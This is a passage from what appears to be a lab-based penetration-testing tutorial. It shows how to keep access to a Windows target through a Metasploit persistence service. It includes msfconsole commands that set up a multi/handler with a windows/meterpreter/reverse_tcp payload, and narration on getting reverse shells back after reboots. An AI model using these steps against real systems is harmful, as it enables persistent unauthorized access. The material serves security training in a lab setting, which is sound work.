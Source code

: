 ```
set LHOST eth1
run
```

We immediately get a Meterpreter session.

```
meterpreter > 
```

What's happening here is once we installed the persistence service, once we've installed it, it's going to run and it's going to continue to run, even across restarts. And as long as we have a `multi/handler` running or listening for a connection from the target, we should be able to receive a connection.

```
meterpreter > exit
run
meterpreter > 
```

We can get as many as required or we can get access whenever we want.

The key thing here is to always keep in mind or take note of the LHOST and LPORT options you specified when generating or specifying the payload options for the persistence service module.

And that is how to establish persistence on the target system.

There's multiple other techniques that you can utilize. But those techniques are unstable. And in my experience, this is probably one of the best options to begin with in terms of setting up and maintaining persistence on a target system.

Even if I exit from msfconsole, and I start up a new session within a different workspace. I can go through the same process and always receive a connection back from the target, unless the persistence service is terminated for whatever reason.

```
meterpreter > exit
exit
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
run
meterpreter > exit
```

# Maintaining Access: Persistence Service
## Overview
A Kali GUI machine and a target machine running a vulnerable server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module.
